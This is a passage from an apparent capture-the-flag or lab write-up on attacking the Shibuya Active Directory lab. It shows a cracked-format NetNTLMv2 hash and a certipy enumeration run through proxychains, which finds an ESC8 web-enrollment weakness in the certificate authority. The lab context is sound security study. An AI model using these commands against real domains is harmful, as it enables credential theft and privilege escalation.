 ```
5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

NIGEL.MILLS::SHIBUYA:1995622f5244d1a0:94de8a8d873c785d9fd1d023ac98f9a7:<REDACTED>:Sa<REDACTED>
```
# ADCS Attack mismatch SID
After the whole process of enumeration, I found that there is ADCS installed on the AD server and another thing is, there are vulnerable certificates that we could use this to get a quick win
```
proxychains certipy find -u nigel.mills@shibuya.vl -dc-ip 10.10.114.33 -ns 10.10.114.33 -p <REDACTED> -vulnerable -stdout
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:636  ...  OK
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via CSRA
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:58258  ...  OK
[!] Got error while trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via RRP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:445  ...  OK
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'shibuya-AWSJPDC0522-CA'
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:80  ...  OK
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : shibuya-AWSJPDC0522-CA
    DNS Name                            : AWSJPDC0522.shibuya.vl
    Certificate Subject                 : CN=shibuya-AWSJPDC0522-CA, DC=shibuya, DC=vl
    Certificate Serial Number           : 2417712CBD96C58449CFDA3BE3987F52
    Certificate Validity Start          : 2025-02-15 07:24:14+00:00
    Certificate Validity End            : 2125-02-15 07:34:13+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SHIBUYA.VL\Administrators
      Access Rights
        ManageCertificates              : SHIBUYA.VL\Administrators
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
        ManageCa                        : SHIBUYA.VL\Administrators
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
        Enroll                          : SHIBUYA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates
  0
```